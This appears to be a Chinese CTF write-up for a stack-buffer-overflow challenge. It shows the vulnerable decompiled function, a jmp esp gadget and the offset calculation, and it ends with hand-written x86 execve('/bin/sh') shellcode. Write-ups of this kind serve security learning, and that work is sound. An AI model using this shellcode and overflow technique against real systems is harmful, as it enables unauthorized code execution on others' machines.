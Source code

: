 ### 知识点

+ 栈溢出
+ `shellcode`书写

没有开启任何保护

`pwn`函数

``` c
int pwn()
{
  char s[32]; // [esp+8h] [ebp-20h] BYREF

  puts("\nHey! ^_^");
  puts("\nIt's nice to meet you");
  puts("\nDo you have anything to tell?");
  puts(">");
  fflush(stdout);
  fgets(s, 50, stdin);
  puts("OK bye~");
  fflush(stdout);
  return 1;
}
```

可以发现`s`发生了栈溢出，然后注意到还有一个函数

`hint`

``` c
void hint()
{
  __asm { jmp     esp }
}
```

没有开启NX保护，所以考虑在栈上执行，即将`pc`指向栈上的地址

一般可以用`shellcraft.sh()`来生成`shellcode`，但是长度不够，我们要栈溢出，先考虑要溢出的字符长度

`0x28=40=32+4+4`：`s`的长度(`32`字节)+原来的`ebp`(`4`字节)+`ret`的位置(`4`字节)

所以先将`shellcode`在`fgets`的时候输入到栈上，然后覆盖返回地址为`jmp  esp`。

`shellcode`的编写如下 

``` python
shellcode ='''
xor eax,eax             #eax置0
xor edx,edx			   #edx置0
push edx			   #将0入栈，标记了”/bin/sh”的结尾
push 0x68732f2f         #传递"/sh"，为了4字节对齐，使用//sh，这在execve()中等同于/sh  68-h 73-s 2f-/ 2f-/
push 0x6e69622f         #传递"/bin"  6e-n 69-i 62-b 2f-/ ,这里是exec的参数进栈，32位通过栈来传参
mov ebx,esp             #此时esp指向了”/bin/sh”,通过esp将该字符串的值传递给ebx
xor ecx,ecx
mov al,0xB              #eax置为execve函数的中断号
int 0x80                #调用软中断
'''
```
